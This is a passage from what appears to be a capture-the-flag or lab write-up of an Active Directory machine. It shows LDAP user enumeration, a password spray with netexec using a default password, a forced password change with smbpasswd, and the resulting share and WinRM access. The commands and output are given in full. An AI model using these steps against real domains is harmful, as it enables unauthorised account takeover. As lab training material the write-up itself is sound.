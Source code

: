 Trying to connect with this user and password will not work as the password was probably changed. The password here might have been setup by the admins for newly created accounts. Lets get a list of users and perform password spray

```terminal
ldapsearch -x -b "dc=baby,dc=vl" -s sub "(objectclass=person)" sAMAccountName -H ldap://10.10.95.204 | grep 'sAMAccountName' | cut -d ':' -f2 > users

sAMAccountName
Guest
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Ian.Walker
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
```
Lets use `netexec` to spray this password. Alternately `kerbrute` can also be used here

```terminal
nxc smb 10.10.95.204 -u users -p 'BabyStart123!' --no-bruteforce
...
SMB         10.10.95.204    445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE
SMB         10.10.95.204    445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
...
```

We get a hit but with the massage that the password needs to be changed. Using `smbpasswd` we can change the password for this account

```terminal
smbpasswd -r 10.10.95.204 -U 'Caroline.Robinson'
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson
```

## Initial Access

Enumerating the DC with the obtained credentials we can see that the user has read privileges to all of the shares in the DC indicating that this account is of high value. It is also able to login to the machine using winrm.

```terminal
SMB         10.10.95.204    445    BABYDC           Share           Permissions     Remark
SMB         10.10.95.204    445    BABYDC           -----           -----------     ------
SMB         10.10.95.204    445    BABYDC           ADMIN$          READ            Remote Admin
SMB         10.10.95.204    445    BABYDC           C$              READ,WRITE      Default share
SMB         10.10.95.204    445    BABYDC           IPC$            READ            Remote IPC
SMB         10.10.95.204    445    BABYDC           NETLOGON        READ            Logon server share
SMB         10.10.95.204    445    BABYDC           SYSVOL          READ            Logon server share

WINRM       10.10.95.204    5985   BABYDC           [+] baby.vl\Caroline.Robinson:P@ssword! (Pwn3d!)
```
